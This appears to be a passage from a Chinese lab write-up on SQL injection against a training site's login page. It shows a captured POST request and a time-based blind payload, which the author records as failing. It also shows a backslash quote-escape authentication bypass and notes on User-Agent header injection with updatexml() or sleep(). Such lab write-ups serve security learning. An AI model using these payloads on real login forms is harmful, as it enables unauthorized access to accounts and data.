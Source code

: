 ```http
POST /Pass-07/index.php HTTP/1.1
Host: injectx1.lab.aqlab.cn:81
Content-Length: 51
Cache-Control: max-age=0
Origin: http://injectx1.lab.aqlab.cn:81
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://injectx1.lab.aqlab.cn:81/Pass-07/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7
Connection: close

username=123&password=123&submit=%E7%99%BB%E5%BD%95
```

## 0x02 注入

### 0x02.1 判断登录账户，尝试绕过单引号

**1. 使用双 urlencoded**， 并通过时间盲注判断是否成功
```sql
username=1%2527 or if(2>1,sleep(3),null) --+
```

> 失败

**利用2个变量的闭合4个单引号。 使用 反斜线 \ 逃脱**

```sql
-- payload
-- username=admin\&password= or 1=1 -- qwe
```

![excape-quote-login-success.png](/assets/img/post/2020/12/12/excape-quote-login-success.png)

> **注意**:

1. 变量注入不仅仅是一个位置的事情， 在多变量时，遇到反制可以混合利用。
2. `POST` 注入时， `+` 不会默认转换成 `空格`， 因此在注释语句时， 需要使用 `-- gg`。 后者使用场景更为通用。

### 0x02.2 利用 User-Agent 注入

1. **User-Agent** 或者说 **Head** 注入， 更多对应的语句是 **Insert** 或者 **Update** 这类修改语句。且这类语句执行不会有明显的执行。 利用方式常见的有一下两种
    1. **报错注入** : 使用  `updatexml()` 函数强制报错返回信息。
    2. **时间盲注**


#### 猜测利用方式
